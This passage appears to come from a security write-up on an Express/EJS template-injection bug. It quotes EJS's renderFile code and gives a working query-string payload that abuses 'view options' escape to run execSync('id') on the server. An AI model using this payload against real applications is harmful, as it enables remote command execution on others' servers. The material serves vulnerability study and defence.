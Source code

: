 The `render` function of `Express` calls the `renderFile` function of EJS.

- `render` => `renderFile` => `...` => `Template.new` => `Template.compile`

Here is the code of the `renderFile` function of EJS:

```js
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];

// ...
exports.renderFile = function () {
    var args = Array.prototype.slice.call(arguments);
    var filename = args.shift();        // arg[0] = PATH of the template
    var opts = {filename: filename};

    // ...
    data = args.shift();                // arg[1] = {
                                        //    "settings": env, view engine, etag, ...,
                                        //    query string,
                                        //    "cache": false
                                        // }
    viewOpts = data.settings['view options'];
    if (viewOpts) {
      utils.shallowCopy(opts, viewOpts);
    }

    // 'client' is allowed to be copied
    utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA_EXPRESS);
    // ...

    return tryHandleCache(opts, data, cb);
};
```

The `opts` variable is then passed to the `Template` object. So, we can get a RCE with the following query string.

```
?client=1&settings[view options][escape]=1;return+process.mainModule.require("child_process").execSync("id").toString();
```

This query string is equals to:

```js
{
  settings: {
    'view options': {
      escape: '1;return process.mainModule.require("child_process").execSync("id").toString();'
    }
  },
  client: '1'
}
```
{{< /details >}}
